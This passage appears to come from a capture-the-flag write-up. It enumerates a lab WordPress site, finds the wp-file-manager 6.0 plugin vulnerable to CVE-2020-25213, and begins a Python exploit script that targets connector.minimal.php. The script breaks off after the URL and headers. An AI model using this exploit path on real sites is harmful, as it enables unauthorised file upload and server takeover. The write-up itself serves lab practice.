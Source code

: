 WPScan doesn't find anything useful:

![picture](https://i.imgur.com/UOPtUff.png)

However there could be plugins that it did not find that might be useful. Browsing to ` http://spongestore.wmg/wp-content/plugins` (a common directory for wordpress plugins to be located and hinted by the themes directory) shows:

![picture](https://i.imgur.com/AwaHD8H.png)

Searching for CVEs for wp-file-manager plugin shows:

![picture](https://i.imgur.com/oMV6rN1.png)

Which (according to [CVE.mitre.org](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25213)) affects all versions before 6.9.  Looking at the readme for the installed plugin:

![picture](https://i.imgur.com/AJcC6Jt.png)

It appears to be version 6.0 so should be exploitable. 

# Foothold

An exploit can be found on [github](https://github.com/w4fz5uck5/wp-file-manager-0day) that shows that the exploit:

```python
#!/usr/bin/env python2

import requests
import sys

print("Usage: %s http://localhost" % sys.argv[0])

burp0_url = "%s/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php" % sys.argv[1]
burp0_headers = {"User-Agent": "curl/7.68.0", "Accept": "*/*", "Content-Type": "multipart/form-data; boundary=------------------------66e3ca93281c7050", "Expect": "100-continue", "Connection": "close"}
```